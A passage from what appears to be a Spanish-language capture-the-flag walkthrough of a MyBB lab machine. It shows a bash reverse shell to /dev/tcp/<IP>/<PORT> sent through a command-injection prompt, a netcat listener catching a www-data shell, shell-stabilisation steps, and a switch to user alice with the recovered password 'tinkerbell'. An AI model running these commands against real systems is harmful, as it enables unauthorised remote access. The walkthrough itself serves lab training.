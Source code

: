Vemos que nos funciona, hemos obtenido el `passwd` de la maquina victima, por lo que nos vamos hacer una `reverse shell` enviando el siguiente comando:

```
Enter Command> bash -c "bash -i >& /dev/tcp/<IP>/<PORT> 0>&1"
```

Pero antes de enviarlo nos pondremos a la escucha:

```shell
nc -lvnp <PORT>
```

Y cuando ejecutemos el anterior comando si volvemos a donde tenemos la escucha veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.186] from (UNKNOWN) [172.17.0.2] 51396
bash: cannot set terminal process group (24): Inappropriate ioctl for device
bash: no job control in this shell
www-data@63d5012215ff:/var/www/mybb$
```

Por lo que vemos ha funcionado, por lo que vamos a sanitizar la shell.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user alice

Si probamos a meter la contraseña que encontramos anteriormente para el usuario `alice` veremos que funciona.

```shell
su alice
```

Metemos como contraseña `tinkerbell` y veremos que estamos dentro como dicho usuario.

## Escalate Privileges
